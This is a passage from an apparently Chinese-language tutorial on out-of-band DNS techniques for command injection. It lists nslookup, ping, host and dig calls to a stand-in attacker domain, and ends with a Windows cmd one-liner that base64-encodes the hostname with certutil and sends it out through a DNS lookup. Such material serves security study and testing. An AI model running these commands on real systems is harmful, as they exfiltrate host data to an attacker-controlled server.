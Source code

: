 **攻击者**  
：使用 Wireshark/tcpdump 监听端口 53 来观察响应  
```
sudo tcpdump -n port 53
```  
  
**注意：**  
在 DNS 命令中，我们也可以明确定义用于解析的名称服务器。  
##### Windows  
```
nslookup test.oob.dnsattacker.com
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoAJicDjAINVXCzT91WFxRSIUXLv0ZgrWFcBjwKJUDeZkDiaRnBDPnADTg/640?wx_fmt=png&from=appmsg "")  
  
nslookup Windows  
```
ping ping.oob.dnsattacker.com
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoiaIlmorYrgicOQv2ZvFWdqzYMhw1iaV27AxkLwMjfCaYdpbQL3agT0s8w/640?wx_fmt=png&from=appmsg "")  
  
Ping Windows  
##### UNIX  
```
host host.oob.dnsattacker.com
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoacY3sXbGWAx7U1WY8ExcRMPrdRZSBiaOo8p8gQaFx7M5JpQVt8Q8RsA/640?wx_fmt=png&from=appmsg "")  
  
Unix host 命令  
  
类似地，我们可以使用：  
```
dig test.oob.dnsattacker.com
ping test.oob.dnsattacker.com
nslookup test.oob.dnsattacker.com
```  
### 漏洞利用/数据窃取  
#### DNS  
  
**注意**  
：使用 Wireshark/tcpdump 监听端口 53 来观察响应  
```
tcpdump -n port 53
```  
##### Windows  
  
**受害者：**  
```
cmd /v /c "hostname > temp && certutil -encode temp temp2 && findstr /L /V "CERTIFICATE" temp2 > temp3 && set /p MYVAR=<temp3 && set FINAL=!MYVAR!.oob.dnsattacker.com && nslookup !FINAL!"
```  
  